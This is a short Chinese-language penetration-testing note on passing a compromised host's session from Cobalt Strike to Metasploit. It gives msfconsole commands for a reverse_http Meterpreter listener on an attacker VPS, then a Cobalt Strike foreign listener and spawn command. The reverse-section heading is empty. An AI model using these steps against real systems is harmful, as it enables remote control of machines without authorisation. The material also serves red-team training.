



# 渗透测试 & MSF与CobaltStrike联动

## CobaltStrike->MSF

​	运行`msfconsole`，启动监听。

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost vps_ip
set lport 44444
exploit
```



​	接着`CobaltStrike`建立一个外部监听，`Host`和`Port`为`lhost`和`lport`。



​	接着将会话派生过去，在`CobaltStrike`控制台执行命令`spawn 105-msf，`msf`收到派生会话成功上线。




## MSF->CobaltStrike

